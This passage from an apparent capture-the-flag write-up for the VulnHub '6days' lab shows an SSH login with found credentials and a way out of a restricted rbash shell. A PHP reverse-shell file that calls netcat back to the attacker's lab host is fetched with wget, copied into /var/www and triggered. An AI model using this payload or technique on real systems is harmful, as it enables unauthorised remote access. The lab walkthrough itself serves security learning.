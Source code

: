 ## SSH
So we now have some credentials (andrea / SayNoToPentests) and we'll give a shot at using them to SSH into the target machine.

<img src="{{ site.url }}/assets/img/ctf/6days_lab_2.png"/>

Success!

But we can't seem to execute commands....

```
andrea@cypm:~$ ifconfig
andrea@cypm:~$ hostname
andrea@cypm:~$ uname -a
andrea@cypm:~$ pwd
andrea@cypm:~$ cd
rbash: cd: restricted
andrea@cypm:~$
```

No commands seem to be working and upon using 'cd' it becomes obvious we are in an rbash shell.

<b>It seems we may be able to use wget so will try to get a reverse shell uploaded</b>
```
andrea@cypm:~$ wget
wget: missing URL
Usage: wget [OPTION]... [URL]...
Try `wget --help' for more options.
```

<b>Created php file to get a shell</b>
```
root@sengen-kali:~/vulnhub/6day# cat shell.php
<?php echo shell_exec("/bin/nc -e /bin/sh 192.168.56.101 443");?>
```

<b>Used wget to get it to the victim machine and put it in /var/www</b>
```
andrea@cypm:~$ wget http://192.168.56.101/shell.php
--2017-07-27 22:25:32--  http://192.168.56.101/shell.php
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 0 [text/html]
Saving to: `shell.php'

    [ <=>                                                                        ] 0           --.-K/s   in 0s      

2017-07-27 22:25:32 (0.00 B/s) - `shell.php' saved [0/0]

andrea@cypm:~$ cp shell.php /var/www
```

<b>Listened on netcat for the connection and called the shell.php page</b>
<img src="{{ site.url }}/assets/img/ctf/6days_lab_3.png"/>
